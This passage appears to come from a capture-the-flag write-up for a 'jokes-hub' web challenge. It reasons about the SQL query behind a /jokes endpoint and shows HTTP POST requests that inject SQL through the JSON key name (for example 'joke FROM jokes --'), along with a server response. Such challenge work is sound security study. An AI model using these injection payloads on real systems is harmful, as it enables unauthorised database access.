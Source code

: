 We can see that in the two different requests, there endpoint `/jokes` is the same. And since it is a select from a DB table, we might think that the there is a selection using `jokeId` attribute, and the column to be selected is the attribute name of the body sent.

Here is how we imagine the statement :

`SELECT joke FROM jokes WHERE id = jokeId`

And the `joke` column is where to put injection.

From here, we can try this :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
...
Accept-Language: en-US,en;q=0.9
Connection: close

{"joke FROM jokes --":8}
```

it will give this :

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 02:09:22 GMT
content-type: application/json
content-length: 55
connection: close

{"result":"Why did the chicken cross the playground?"}
```

same as this :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
...
Accept-Language: en-US,en;q=0.9
Connection: close

{"joke FROM jokes --":3}
```

And this :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
...
Accept-Language: en-US,en;q=0.9
Connection: close

{"joke FROM jokes --":100}
```
